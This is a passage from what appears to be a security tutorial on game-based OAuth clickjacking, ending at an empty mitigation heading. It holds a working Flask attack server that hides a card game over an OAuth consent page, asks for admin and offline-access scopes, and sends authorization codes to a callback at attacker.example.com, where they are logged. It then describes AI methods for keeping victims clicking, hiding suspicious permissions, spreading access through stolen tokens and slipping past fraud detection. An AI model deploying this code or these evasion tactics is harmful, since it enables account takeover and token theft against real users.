                if (matchedPairs === 4) {
                    setTimeout(showVictory, 500);
                }
            } else {
                // No match - flip cards back
                setTimeout(() => {
                    card1.card.classList.remove('flipped');
                    card2.card.classList.remove('flipped');
                    card1.card.innerHTML = '❓';
                    card2.card.innerHTML = '❓';
                }, 500);
            }
            
            flippedCards = [];
        }
        
        function showVictory() {
            // Show fake victory screen while OAuth tokens are obtained
            document.querySelector('.game-container').innerHTML = `
                <div style="text-align: center; padding: 50px;">
                    <h1>🎉 CONGRATULATIONS! 🎉</h1>
                    <p style="font-size: 24px;">You scored ${score} points!</p>
                    <p>You've been entered into our $100 prize draw!</p>
                    <p style="color: #888; font-size: 12px;">
                        (This is an educational demonstration)
                    </p>
                </div>
            `;
            
            console.log('[Attack] Attack complete - OAuth permissions granted');
        }
    </script>
</body>
</html>
"""

def construct_oauth_url(client_id, redirect_uri, scopes):
    """
    Constructs the malicious OAuth authorization URL.
    
    Args:
        client_id: Attacker's registered OAuth application ID
        redirect_uri: Attacker's callback URL to receive tokens
        scopes: List of permissions to request (read, write, admin, etc.)
    
    Returns:
        Complete OAuth authorization URL with malicious parameters
    """
    # Generate a state parameter (would be validated by attacker's server)
    state = secrets.token_urlsafe(16)
    
    # Build scope string requesting maximum permissions
    scope_string = ' '.join(scopes)
    
    # Construct the OAuth URL (format varies by provider)
    oauth_url = (
        f"https://oauth.provider.example.com/authorize?"
        f"client_id={client_id}&"
        f"redirect_uri={redirect_uri}&"
        f"scope={scope_string}&"
        f"state={state}&"
        f"response_type=code"
    )
    
    return oauth_url

# Attack configuration - registered malicious OAuth application
ATTACK_CONFIG = {
    # Attacker's registered OAuth app credentials
    'client_id': 'malicious_app_12345',
    
    # Callback URL controlled by attacker to receive tokens
    'redirect_uri': 'https://attacker.example.com/oauth/callback',
    
    # Request maximum permissions
    'scopes': [
        'read_profile',      # Access user's profile data
        'read_email',        # Access user's email 
        'read_contacts',     # Access user's contact list
        'write_data',        # Modify user's data
        'offline_access',    # Refresh tokens (persistent access)
        'admin'              # Administrative access if available
    ],
    
    # Opacity for calibration (0 for real attack)
    'opacity': 0.0
}

@app.route('/')
def serve_game_attack():
    """
    Serves the card memory game that hijacks OAuth consent.
    Each card click is positioned over an OAuth consent action.
    """
    # Construct OAuth URL with malicious permissions
    oauth_url = construct_oauth_url(
        ATTACK_CONFIG['client_id'],
        ATTACK_CONFIG['redirect_uri'],
        ATTACK_CONFIG['scopes']
    )
    
    return render_template_string(
        OAUTH_ATTACK_TEMPLATE,
        oauth_url=oauth_url,
        opacity=ATTACK_CONFIG['opacity']
    )

@app.route('/callback')
def oauth_callback():
    """
    Callback endpoint to receive stolen OAuth authorization codes.
    In a real attack, this would exchange the code for access tokens.
    """
    auth_code = request.args.get('code')
    state = request.args.get('state')
    
    # Log received authorization code
    print(f"[!] Received OAuth code: {auth_code}")
    
    # In real attack: exchange code for access/refresh tokens
    # and store them for persistence access to victim's account
    
    return "Game error - please try again later."

if __name__ == '__main__':
    print("[!] EDUCATIONAL OAUTH CLICKJACKING DEMO")
    print("[*] Demonstrates game-based OAuth consent hijacking")
    print("[*] Attack page: http://localhost:5003/")
    app.run(host='127.0.0.1', port=5003, debug=True)
```

#### AI-ML-Enhanced Attack Techniques

**1. Adaptive Game Mechanics with Reinforcement Learning**

Traditional game-based clickjacking requires extensive manual testing to ensure the game remains engaging while still achieving the necessary click sequence on the hidden OAuth consent form. Reinforcement Learning agents can dynamically adjust game mechanics in real-time to optimize both player engagement and attack success rates simultaneously. The RL agent learns which game difficulty levels, reward frequencies, and visual feedback patterns keep players clicking without becoming frustrated and abandoning the game prematurely. By observing player behavior through mouse movement patterns and click timing, the AI can detect when a player is about to leave and inject engaging elements to retain them until all OAuth permissions are granted. The system can adapt game rules mid-session, such as making card matches easier when detecting player frustration or introducing bonus rounds that align with critical OAuth confirmation buttons. Multi-armed bandit algorithms test different game themes, color schemes, and reward structures across player segments to identify the most effective combinations for each demographic. The AI can even generate new game variations automatically, ensuring that security monitoring systems cannot recognize the attack based on specific game patterns. This adaptive approach dramatically increases the percentage of visitors who complete the full OAuth authorization sequence compared to static game implementations.

**2. Permission Request Optimization via Natural Language Understanding**

OAuth consent screens display complex permission descriptions that influence whether users consciously notice suspicious access requests, but different phrasing and presentation order affects comprehension significantly. Natural Language Processing models can analyze how different OAuth providers describe permissions, identifying which descriptions are most likely to be skimmed or misunderstood by users. The AI can select the order in which permissions are requested and accepted during the attack, prioritizing clicks on broadly-worded permissions that seem innocuous before advancing to more sensitive ones. Language models can predict which permission combinations are likely to trigger user suspicion, helping attackers choose the maximum effective scope without crossing detection thresholds. The system can also identify OAuth providers whose consent UIs use small fonts, cramped layouts, or auto-scrolling behaviors that reduce user attention to permission details. Sentiment analysis of user forum discussions reveals which specific permission phrases cause the most concern, allowing attacks to hide those requests in less suspicious contexts. The AI generates A/B test variations of attack sequences to empirically determine which permission request orders yield the highest grant rates. This linguistic understanding transforms OAuth hijacking from a brute-force permission grab into a psychologically optimized consent manipulation attack.

**3. Cross-Platform Token Exploitation via Graph Neural Networks**

Modern users authenticate across dozens of interconnected platforms using OAuth, creating complex webs of token relationships that attackers can exploit once they obtain initial access to one service. Graph Neural Networks (GNNs) can map the OAuth ecosystem, modeling relationships between identity providers, relying parties, and the permission scopes that enable token propagation between services. By analyzing which platforms accept tokens from which providers and what permissions enable cross-service access, the GNN identifies optimal initial targets that unlock the maximum downstream access. The model learns from historical OAuth breach data to predict which token combinations grant access to high-value targets like cloud storage, email, or financial services. When an attack successfully obtains tokens from one victim, the GNN immediately identifies which connected services can be accessed without additional user interaction. The AI can discover less-protected services in the OAuth graph that serve as stepping stones to reach more heavily secured targets through legitimate token flows. Real-time token analysis enables the attack system to automatically test obtained tokens against the mapped service graph, instantly expanding access without manual intervention. This network-aware approach transforms a single successful clickjacking attack into comprehensive access across the victim's entire authenticated service ecosystem.

**4. Timing Attack Optimization with Predictive User Behavior Models**

OAuth consent flows often include timing-based security measures such as session timeouts, rate limiting, or suspicious activity detection that trigger additional verification steps. Deep learning models analyzing behavioral patterns can predict the optimal timing for each click in the attack sequence to avoid triggering these security mechanisms. The model learns typical user interaction speeds from studying legitimate OAuth consent flows, then coaches the game to pace victim clicks within normal human timing distributions. Predictive analytics identify when security systems are most likely to flag unusual patterns, allowing the attack to insert natural-looking pauses or micro-interactions that reset suspicious activity counters. The AI can detect when an OAuth provider's backend is performing real-time fraud analysis and dynamically adjust the attack pace to appear more organic. Time-series analysis of OAuth grant patterns reveals optimal attack windows, such as during high-traffic periods when anomaly detection thresholds are relaxed to reduce false positives. The model can predict when victims are most cognitively fatigued and likely to click through consent prompts quickly without reading, timing phishing campaigns accordingly. This temporal intelligence ensures attacks avoid the behavioral tripwires that modern OAuth implementations use to detect automated or manipulated consent flows.

#### Mitigation Application

The OAuth provider implements robust protections:



